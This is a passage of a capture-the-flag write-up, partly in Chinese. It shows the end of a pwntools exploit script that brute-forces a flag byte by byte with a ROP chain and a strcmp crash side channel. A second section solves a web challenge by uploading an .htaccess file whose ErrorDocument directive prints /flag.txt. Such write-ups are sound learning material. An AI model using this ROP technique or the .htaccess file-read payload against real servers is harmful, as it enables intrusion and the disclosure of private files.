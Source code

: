 ```python
            clean_qword_rax8_ret,

            #clean flag string
            pop_rax_ret, flagAddress-8+1,
            clean_qword_rax8_ret,

            #set guessByte(rdi) as my input
            pop_rdi_ret, guessByte,
            pop_rdx_ret, p64(byte),
            mov_byte_rdi_from_dl_ret,

            #set rsi as flag and strcmp, if equal shutdown, else sleep forever
            pop_rsi_ret, flagAddress,
            strcmp_pop5reg_ret, 0xdeadbeef, 0xdeadbeef, 0xdeadbeef, 0xdeadbeef, 0xdeadbeef, ebfe
        )


        # gdb.attach(p,
        # """
        # b *main
        # """
        # )

        payload = b'a' * 0x20 + b'b' * 8 + ROP
        p.sendafter(b' rop\n', payload)
        time.sleep(1)
        try:
            print(p.recv(timeout=3))
            flag += chr(byte)
            break
        except Exception as e:
            print(e)

```
用 ropGadget 找到 rop chain 的地址

用 IDA 找出 strcmp 的function，因為strcmp會比較字元陣列直到\x00才停止，所以若要一次猜一個byte要先把 flag[index] 以外的byte設為 0，guessByte 的地址也先清空。rsi 傳入 flag，rdi 傳入要猜的byte，因為register沒設定好，若 byte 完全相同會程式崩潰，不同的話就會回到ROP chain中設定好的無限迴圈

![](https://i.imgur.com/R6KI8i4.png)



## Web
### Challenge Name :  Gist
content of .htaccess:

    ErrorDocument 404 %{file:/flag.txt}

![](https://i.imgur.com/4u0yRyt.png)

上傳.htaccess

![](https://i.imgur.com/oj4XvaB.png)

當404 error的時候server 就會 print /flag.txt

